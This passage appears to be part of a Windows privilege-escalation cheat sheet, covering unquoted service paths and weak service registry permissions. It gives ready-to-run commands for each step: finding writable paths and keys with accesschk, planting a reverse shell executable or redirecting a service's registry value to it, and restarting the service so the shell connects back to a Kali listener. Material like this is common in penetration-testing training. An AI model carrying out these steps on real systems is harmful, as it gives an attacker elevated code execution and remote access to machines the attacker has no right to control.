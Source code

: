 Consider the following unquoted path: ```C:\Program Files\Some Dir\SomeProgram.exe``` To us, this obviously runs ```SomeProgram.exe```. To Windows, ```C:\Program``` could be the executable, with two arguments: ```Files\Some``` and ```Dir\ SomeProgram.exe``` Windows resolves this ambiguity by checking each of the possibilities in turn. If we can write to a location Windows checks before the actual executable, we can trick the service into executing it instead.

#### Confirm this using sc:
```
sc qc <SERVICE NAME>
```

#### Use accesschk.exe to check for write permissions:
```
.\accesschk.exe /accepteula -uwdq "<PATH WITH SPACE>"
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

#### Copy the reverse shell executable and rename it appropriately:
```
copy C:\temp\reverse.exe "<PATH>"
```

#### Start a listener on Kali, and then start the service to trigger the exploit:
```
net stop <SERVICE>
net start <SERVICE>
```

### Weak registry permissions
The Windows registry stores entries for each service. Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.

#### We can confirm a weak registery entry with:
a. Powershell
   - ```Get-Acl <REG PATH> | Format-List```
B. accesschk.exe
   - ```.\accesschk.exe /accepteula -uvwqk <REG PATH>```

#### Overwrite the <VALUE> of registry key to point to our reverse shell executable:
```
reg add <REG PATH> /v <REG VALUE> /t REG_EXPAND_SZ /d C:\temp\reverse.exe /f
```

#### Start a listener on Kali, and then start the service to trigger the exploit:
```
net stop <SERVICE>
net start <SERVICE>
```
